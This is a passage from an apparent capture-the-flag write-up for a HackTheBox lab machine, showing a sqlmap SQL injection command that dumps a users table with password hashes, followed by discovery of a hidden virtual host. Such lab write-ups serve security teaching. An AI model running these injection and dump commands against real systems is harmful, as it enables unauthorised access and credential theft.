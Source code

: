 

I'll dump the `users` table:



    oxdf@hacky$ sqlmap -D erms_db -T users --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: erms_db
    Table: users
    [3 entries]
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    | id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    | 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
    | 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
    | 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
    +----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
    ...[snip]...



There's three users, each with what look like MD5 hashes for the
password. [CrackStation](https://crackstation.net/) doesn't crack any of
them.

There's also paths to the users' avatars. They each start with
`../oldmanagement/files/`.

#### New VHost

There's a couple databases that I can't associate with an application at
this point. Thinking about how web servers are typically setup, various
hosts each have a folder in `/var/www/`. So if ERMS is running out of
something like `/var/www/emrs`, then the avatars are linked back to
`/var/www/oldmanagement`, which suggests that might be a different
virtual host. It's worth a try - adding `oldmanagement.seventeen.htb` to
`/etc/hosts` and visiting in Firefox loads a new login form:

![](/img/image-20220503205802532.png)

Surprisingly, there are no exploits in `searchsploit` for this.

Interestingly, the request does redirect to
`http://oldmanagement.seventeen.htb:8000/oldmanagement/`. So this app is
actually hosted on port 8000.

#### db_sfms

I couldn't find a way to past that Login form, but I do have access to
the `db_sfms` via the SQL injection, which turns out to be related to
this page:
